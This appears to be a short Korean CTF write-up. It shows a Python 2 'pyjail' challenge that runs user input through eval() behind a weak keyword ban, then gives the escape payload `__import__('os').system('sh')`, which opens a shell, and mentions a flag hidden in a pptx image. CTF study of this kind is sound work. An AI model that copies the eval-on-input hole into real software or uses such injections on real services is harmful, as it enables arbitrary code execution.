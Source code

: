```
cd pyjail
ls
main.py
cat main.py
```

```py
#!/usr/bin/env python

import sys
from time import sleep

print 'devonnuri : Hello Team A0V3R Members'
print 'devonnuri : I\'ve got stuck in this jail... plz help me'
print 'devonnuri : To escape from here I need \'key\''
print 'devonnuri : But I think the key won\'t be able to get by normal way..'

ban = ['key', '"']
sys.stdout.write('Search > ')
sys.stdout.flush()
command = raw_input()

sys.stdout.flush()

for item in ban:
	if item in command:
		print '\nPolice : You\'ve been arrested because of suspicious behavior.'
		print 'devonnuri : Noooooo...\n'
		print '* Hint : Some time ago this man found the key and escaped. So all the guards hide their keys so they can not be seen easily.'
		sys.exit(0)
try:
	print 'Result > ' + str(eval(command))
	print '\nMe : It would be helpful!'
except:
	print 'Me : Hmm.. It seems not useful'

# key = "A0V3R{(sigh) Finally I escaped out of the jail..}"
```

`__import__('os').system('sh')`

쉘이 열린다.

`A0V3R{(sigh) Finally I escaped out of the jail..}`

## Archives
pptx 파일을 뜯으니 `image5.png` 파일에 플래그가 있었다.
